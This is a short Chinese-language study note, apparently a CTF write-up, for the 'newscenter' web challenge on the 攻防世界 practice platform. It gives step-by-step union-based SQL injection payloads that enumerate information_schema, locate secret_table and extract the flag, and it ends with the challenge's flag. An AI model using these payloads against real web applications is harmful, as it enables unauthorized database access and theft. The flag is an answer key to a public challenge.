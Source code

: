 ```yaml
---
typora-copy-images-to: ./images
typora-root-url: ../pengsj_notes
---
```


1. 题目：攻防世界web高手进阶区的newscenter题目：

   - 为什么要使用单引号`'`，为什么要使用`#`，联合查询的时候，直接select 1，2，3看结果回显哪一个？？为什么还要 0 union。

     `'and 0 union select 1,2,3 # `

     ![image-20210203205653243](images/image-20210203205653243.png)

     

   - 由于上面的查询语句得到的是2 3的结果，所以这题的思路就是在2 3位置输入查询的数据库名和表名。

     ````mysql
     ' and 0 union select 1, table_schema,table_name from information_schema.columns #
     ````

     ![image-20210203205912343](images/image-20210203205912343.png)

     ![image-20210203205929110](images/image-20210203205929110.png)

     由查询结果可知，数据库为news，表名为secret_table。

   - 这一步查询secret_table的字段名：

     ```mysql
     ' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table' #
     ```

     ![image-20210203210237927](images/image-20210203210237927.png)

   - 由结果可得：

     结果在fl4g字段中：

     ![image-20210203210657111](images/image-20210203210657111.png)

     `QCTF{sq1_inJec7ion_ezzz} `

